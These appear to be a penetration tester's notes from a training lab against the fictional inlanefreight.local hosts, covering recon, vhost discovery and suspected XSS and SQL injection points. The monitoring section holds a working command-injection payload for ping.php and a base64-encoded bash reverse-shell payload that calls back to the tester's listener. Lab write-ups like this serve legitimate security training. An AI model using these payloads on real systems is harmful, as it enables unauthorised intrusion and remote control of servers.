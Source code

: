 # `inlanefreight.local`
## Team Members
- some names (POTENTIAL usernames)
- http://inlanefreight.local/about.html
![[Pasted image 20240815140549.png]]
## Form
- get in touch form (can be tested for XSS BLIND/STORE)
![[Pasted image 20240815141004.png]]
## Subscribe modal

![[Pasted image 20240815141405.png]]
![[Pasted image 20240815141415.png]]
## Directory search
## /monitoring
- `/monitoring` has been found, with login form
![[Pasted image 20240815170253.png]]
## Vhost discovery
- `monitorint.inlanefreight.local` has been found

# `monitoring.inlanefreight.local`
-  except `index.php` and `login.php`, `ping.php` has been found, potential comand injection
- fuzzing variables requried
- after fuzzing parameters `ip` has been found
- this payload exploited command injection  
```
/ping.php?ip=127.0.0.1%0acat${IFS}login.php
```
-  after login into I have webshell in restricted shell
- to recieve rev shell the next payload will be good but it works only for 10.10.15.188:4444 listener. 
	- to create for new ip/port, base64 should containt `+`
```
/ping.php?ip=127.0.0.1%0abash<<<$(base64${IFS}-d<<<YmFzaCAgIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjE4OC80NDQ0ICAwPiYx)
```


# `blog.inlanefreight.local`
- Drupal
![[Pasted image 20240816070501.png]]
- with login page under `/under/login`, create new account with file upload and reset your password also exists
![[Pasted image 20240816070528.png]]
- after username creation it says that `accounts is currently pending approval by the site administrator`
	- Maybe it make sense to test for **`BLIND SQL`**
![[Pasted image 20240816074205.png]]
- also there is `/contact` page with website feedback, **has to be tested for  BLIND XSS**
	- it's really sends POST request